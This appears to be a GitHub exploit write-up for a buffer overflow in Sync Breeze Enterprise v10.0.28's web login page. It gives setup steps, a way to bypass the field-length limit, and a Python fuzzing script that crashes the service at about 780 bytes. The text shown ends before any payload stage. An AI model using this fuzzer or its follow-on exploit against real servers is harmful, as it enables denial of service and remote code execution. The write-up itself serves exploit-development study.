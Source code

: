 # Sync Breeze Enterprise v10.0.28 RCE

SyncBreeze is a fast, powerful and reliable file synchronization solution for local disks, network shares, NAS storage devices and enterprise storage systems. Users are provided with multiple one-way and two-way file synchronization modes, periodic file synchronization, real-time file synchronization, bit-level file synchronization, multi-stream file synchronization, background file synchronization and much more. However, on version v10.0.28, the application is vulnerable to a buffer overflow in the login page for both username and password fields, allowing us to execute commands remotely and gain access to the machine running it.

First, for the exploit to work the web server on Sync Breeze needs to be enabled. This can be done be opening the Sync Breeze Client application and going to: Tools > Advanced Options > Server > Check the option 'Enable Web Server on Port'. By default the application runs on port 80. While analyzing it we can see that the server contains a login page, you can access it on the URL: http://"serverip"/login, where "serverip" is the IP Address of the machine running Sync Breeze. On the login page we can see that it has two fields, the username and password, when trying to manually pass arguments initially, we can see that both username and password fields have a length limit. If we inspect the page code we can see that both fields have a limit of 64, editing it to remove the limit, we can bypass and enter how many values we want.

![image](https://github.com/Smarttfoxx/syncbreezeentrce/assets/140526026/22c51652-3db2-4936-ae70-98eb7a5dd24f)
![image](https://github.com/Smarttfoxx/syncbreezeentrce/assets/140526026/15f9e7ad-bb96-46f4-adb6-c2fdad132055)

To check how many bytes are necessary to cause the bufferoverflow or if the application is vulnerable to it, we can create a Python2 script to make POST requests to the login page, we can set a maximum of 5000 bytes to the final request, so, going from 1 byte on the first request to 5000 bytes on the final on a loop, adding 1 each time and with a delay of 0.05 seconds between each request to give time to the server to process them and retrieve us a more exact value. Running the script we find values 780 and 781 as the last two before the crash. Testing again sending only 780 first we can already see that the buffer overflow occurs and the application crashes.

```
#!/usr/bin/python
import socket
import time

counter = 0

while counter <= 5000:
    
    counter +=1
    bufferOvrCode = "A" * counter
    requestLenght = len(bufferOvrCode) + 23

    print ("Fuzzing with %s bytes"%len(bufferOvrCode))

    request="POST /login HTTP/1.1\r\n"
    request+="Host: 192.168.0.12\r\n"
    request+="Content-Length: "+str(requestLenght)+"\r\n"
    request+="Cache-Control: max-age=0\r\n"
    request+="Upgrade-Insecure-Requests: 1\r\n"
    request+="Origin: http://192.168.0.12\r\n"
    request+="Content-Type: application/x-www-form-urlencoded\r\n"
    request+="User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36\r\n"
    request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
    request+="Referer: http://192.168.0.12/login\r\n"
    request+="Accept-Encoding: gzip, deflate, br\r\n"
    request+="Accept-Language: en-US,en;q=0.9\r\n"
    request+="Connection: close\r\n"
    request+="\r\n"
    request+="username="+bufferOvrCode+"&password=1234"
```